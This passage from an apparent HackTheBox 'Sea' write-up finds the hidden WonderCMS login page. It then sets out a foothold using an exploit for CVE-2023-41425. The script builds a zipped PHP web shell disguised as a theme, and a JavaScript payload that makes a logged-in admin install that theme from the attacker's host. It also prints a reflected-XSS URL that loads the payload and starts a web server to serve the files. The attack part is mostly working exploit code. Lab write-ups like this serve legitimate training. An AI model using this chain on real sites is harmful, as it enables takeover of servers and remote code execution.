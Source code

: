 We need the login URL and it seems like wondercms tries to hide that for some reason. Looking at the docs for any hints. finds page navigation from index.php?page=`page`

https://github.com/WonderCMS/wondercms/wiki/Login-URL-doesn%27t-work---404

![](/Screenshots/Sea_image_12.png)

Some trial and error and noticing the docs referencing `loginurl` gets us the write URL >> `http://sea.htb/index.php?page=loginURL`. We can also just shorten this to `/loginURL`

![](/Screenshots/Sea_image_13.png)




---
# Foothold

We can use another exploit on github to get a shell and then get a reverse shell on the box. https://github.com/charlesgargasson/CVE-2023-41425

```bash
# Setting vars
RHOST="http://host.com:80"
LHOST="10.10.14.152"
LPORT="4444"
LPORTWEB="80"

# Moving to a tmp dir
cd $(mktemp -d)

# Creating our evil theme zip file
mkdir -p evil
cat <<'EOF'>evil/evil.php
<?=`$_GET[0]`;?>
EOF

zip -r evil.zip evil/

# JS payload that will install the new theme
cat <<EOF>xssrce.js
var xhr=new XMLHttpRequest();
xhr.open("GET", "${RHOST}/?installModule=http://${LHOST}:${LPORTWEB}/evil.zip&directoryName=whatever&type=themes&token=" + document.querySelectorAll('[name="token"]')[0].value, true);
xhr.send();
EOF
# Print XSS url
echo -e "\n# XSS RCE"
cat <<EOF
${RHOST}/index.php?page=loginURL?"></form><script+src="http://${LHOST}:${LPORTWEB}/xssrce.js"></script><form+action="
EOF
# Starting a new web server to serve payloads
sudo python3 -m http.server $LPORTWEB &
```
